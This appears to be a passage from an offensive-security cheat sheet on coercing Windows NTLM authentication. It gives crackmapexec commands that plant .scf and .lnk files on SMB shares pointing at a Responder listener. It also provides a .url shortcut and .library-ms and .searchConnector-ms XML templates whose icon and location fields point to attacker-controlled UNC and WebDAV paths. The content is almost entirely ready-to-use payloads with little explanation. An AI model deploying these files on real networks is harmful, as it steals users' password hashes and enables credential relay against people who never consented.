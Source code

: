 ```ps1
crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

### URL Files

This attack also works with `.url` files and `responder -I eth0 -v`.

```powershell
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### Windows Library Files

> Windows Library Files (.library-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
  <name>@windows.storage.dll,-34582</name>
  <version>6</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

### Windows Search Connectors Files

> Windows Search Connectors (.searchConnector-ms)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="<http://schemas.microsoft.com/windows/2009/searchConnector>">
    <iconReference>imageres.dll,-1002</iconReference>
    <description>Microsoft Outlook</description>
    <isSearchOnlyItem>false</isSearchOnlyItem>
    <includeInStartMenuScope>true</includeInStartMenuScope>
    <iconReference>\\\\workstation@8888\\folder.ico</iconReference>
    <templateInfo>
        <folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
    </templateInfo>
    <simpleLocation>
        <url>\\\\workstation@8888\\folder</url>
    </simpleLocation>
</searchConnectorDescription>
```
